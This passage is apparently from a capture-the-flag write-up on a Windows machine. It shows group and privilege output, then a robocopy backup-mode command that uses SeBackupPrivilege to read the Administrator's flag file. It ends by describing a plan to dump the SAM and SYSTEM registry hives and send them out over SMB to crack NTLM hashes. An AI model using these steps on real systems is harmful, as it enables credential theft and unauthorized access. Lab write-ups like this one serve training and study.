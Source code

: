 ```
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

We can see that this user has quite powerfull `SeBackupPrivilege`. This privilege allows a process to bypass file system permissions for the purpose of backup operations and with that we can immediately access root flag.

```
robocopy /B /NJH /NJS /NDL C:\Users\Administrator\Desktop\ . root.txt; cat root.txt
********************************
```

Grabing root flag solves the challange, but technically we have not (yet) elevated priviliges. Let's run extra mile to do so.

As with `SeBackupPrivilege` we can bypass file system permissions, the most straightforward approach would be dump of NTLM hashes from `SAM` file. `SYSTEM` file will be needed as well. Those files are critical for Windows authentication and (under normal conditions) are always in use by the operating system, thus we will not be able to directly copy them with `robocopy`. To overcome this issue we will dump them form registry to `.hiv` files instead and exfiltrate using SMB share.
